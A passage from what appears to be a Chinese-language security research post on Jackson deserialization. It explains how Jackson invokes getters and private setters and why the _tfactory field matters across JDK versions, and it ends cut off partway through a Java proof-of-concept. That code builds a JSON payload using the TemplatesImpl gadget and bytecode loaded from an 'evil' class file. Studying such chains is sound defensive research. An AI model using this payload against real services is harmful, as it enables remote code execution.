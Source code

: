 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418170525469.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418170541534.png)

我们所传入的outputProperties，TemplatesImpl内是没有这个字段的，而且也没有对应的setter。而且该方法返回的Properties也是Map的子类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418170830371.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418170856881.png)

所以理论上来说，jackson调用getter也是有相当大的局限的

还记得上面提到的准备反序列化数组时`AsArrayTypeDeserializer._findDeserializer`获取子属性的反序列化器吗

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418164732437.png)

一直跟进到BeanDeserializerBase，循环为数组每个prop装配Deserializer

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250418165313954.png)



其他的就是调setter赋值了，注意jackson能调用私有的setter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013111602440.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013111700984.png)

有没有注意到我们并没有设置一般都会设置的`_tfactory`

在CC中我们不设置，是因为readObject帮我们设置了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013113237325.png)

在JDK低版本用不到`_tfactory`，所以不设置也没问题

在JDK>7U21||>8u20的情况下，不设置`_tfactory`defineTransletClasses会报错

区别如下：

左为JDK8U65，右为JDK7U21

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013114035230.png)

### JsonTypeInfo.Id.CLASS POC

```JAVA
package org.exploit.third.jackson;

import com.fasterxml.jackson.annotation.JsonTypeInfo;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.unboundid.util.Base64;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Id_MINIMAL_Class_TemplatesImpl {
    public static class Id_Class_Test {
        @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
        public Object object;
    }
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("{\"object\":{'@c':'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
```